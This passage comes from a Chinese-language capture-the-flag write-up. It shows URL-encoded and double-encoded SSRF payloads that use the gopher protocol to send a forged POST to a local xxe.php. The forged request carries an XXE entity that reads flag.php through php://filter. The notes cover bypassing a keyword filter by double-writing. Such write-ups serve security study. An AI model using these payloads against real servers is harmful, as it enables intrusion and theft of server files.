 ```
POST%20/xxe.php%20HTTP/1.1%0D%0AHost%3A%20121.36.64.91%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%20225%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0A%0D%0Adata%3D%253C%253Fxml%2520version%2520%253D%2520%25221.0%2522%253F%253E%250A%253C%21DOCTYPE%2520ANY%2520%255B%250A%2520%2520%2520%2520%253C%21ENTITY%2520f%2520SYSTEM%2520%2522php%253A%252F%252Ffilter%252Fconvert.base64-encode%252Fresource%253D%252566%25256c%252561%252567.%252570%252568%252570%2522%253E%250A%255D%253E%250A%253Cx%253E%2526f%253B%253C%252Fx%253E%0D%0A
```

拿去URLencode之后，用gopher协议打（gopher协议后面的数据需要二次编码）：

 

```
?a=xxx&b=xxx&c=gopher%3a%2f%2f127.0.0.1%3a80%2f_POST%2520%2fxxe.php%2520HTTP%2f1.1%250D%250AHost%253A%2520121.36.64.91%250D%250AContent-Type%253A%2520application%2fx-www-form-urlencoded%250D%250AContent-Length%253A%2520238%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250A%250D%250Adata%253D%25253C%25253Fxml%252520version%252520%25253D%252520%2525221.0%252522%25253F%25253E%25250A%25253C%2521DOCTYPE%252520ANY%252520%25255B%25250A%252520%252520%252520%252520%25253C%2521ENTITY%252520f%252520SYSTEM%252520%252522php%25253A%25252F%25252Ffilter%25252Fconvert.base64-encode%25252Fresource%25253D%252566%25256c%252561%252567.%252570%252568%252570%252522%25253E%25250A%25255D%25253E%25250A%25253Cx%25253E%252526f%25253B%25253C%25252Fx%25253E%250D%250A
```

上面这个payload是xxe直接flag.php，但是没双写所以读不到，然后flag关键字还是需要URLencode，其实也就相当于利用了超全局变量，和另外一个方法比起来简直弱爆了

注意

1.修改数据时记得改POST请求头的Content-Type；

2.记得双写，xxe.php的过滤是替换为空

3.万万不要读取hints.php和main.php，最后会走到一个做不出来的pop链

复现到这里，再次哭晕；